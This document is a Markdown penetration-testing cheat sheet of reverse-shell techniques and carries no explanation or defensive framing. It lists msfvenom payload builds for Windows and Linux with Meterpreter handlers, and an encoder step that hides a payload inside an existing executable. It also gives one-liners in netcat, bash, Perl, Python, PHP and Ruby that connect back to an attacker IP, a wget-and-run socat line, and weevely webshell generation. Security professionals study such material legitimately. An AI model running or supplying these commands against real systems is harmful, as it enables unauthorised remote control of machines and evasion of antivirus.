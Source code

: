 # Shells

### Using msfvenom

#### Listing modules

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

#use LHOST and LPORT

#example of netcat without the -e flag
msfvenom -p cmd/unix/reverse_netcat LHOST=[ip] LPORT=4444 R

#perl reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=4444 R
```

### Upgrading Shells

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
#use socat

socat file:`tty`,raw,echo=0 tcp-listen:4444 

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

#one liner to download socat binary https://github.com/andrew-d/static-binaries
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Windows

#### Netcat

```text
nc.exe 192.168.1.101 443 -e cmd.exe
```

#### Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o met_shell_reverse.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.1 LPORT=443 -f exe -o met_https_reverse.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set payload windows/meterpreter/reverse_https
```

#### msfvenom TCP - Reverse

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o shell_reverse_tcp.exe
nc -v -n -l -p 1234

use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### msfvenom TCP - Reverse - Staged

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o shell_reverse_tcp.exe

use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

#### Binary Payload Injection

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

### Linux

#### Netcat shell

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Meterpreter elf binary

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f elf > shell.elf
```

#### Bash one liner

```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/8080; sh <&196 >&196 2>&196
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
nc -v -n -l -p 8080
```

#### PERL

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Webshells

/usr/share/webshells

weevely generate password /root/webshell.php

